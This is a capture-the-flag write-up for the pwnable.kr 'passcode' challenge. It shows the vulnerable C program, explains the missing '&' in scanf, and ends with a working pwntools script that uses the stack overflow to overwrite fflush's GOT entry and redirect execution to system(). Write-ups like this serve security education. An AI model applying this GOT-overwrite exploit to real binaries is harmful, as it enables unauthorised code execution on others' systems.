



First, lets take a look on the code:

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

We can notice that in the `scanf` they forgot to put `&` sign, which means instead of putting our input into `passcode1` scanf gonna use passcode1 as a pointer, and put our input in the memory passcode1 points to.
Because of this, if we can decide what will be the default value of passcode1, we can get `arbitrary write` !

Lets check in `gdb` if we can somehow using the welcome buffer, in order to affect the default values in `login` stack frame




It seems like after 96 bytes, we can override passcode1 !!
Now we have `arbitrary write`.
We can put an address of any function in the `got` 
our options:
- fflush
- printf
- puts
- exit

the problem is, we need to check, that the address does not includes `0x00`
cause null terminator would stop our scanf.


seems like `fflush` can work for us, we will override the address and make it jump to the system!
```python
#!/usr/bin/python3

from pwn import *

passcode_offset = 96

elf = ELF("passcode")

s = ssh(host="pwnable.kr", port=2222, user="passcode", password="guest")
p = s.process(["./passcode"])

payload = b'a'*passcode_offset + p32(elf.sym["got.fflush"])
p.recvline()

p.sendline(payload)

p.recvuntil(b"Welcome")
p.sendline(str(0x080485d7).encode())

p.interactive()
```
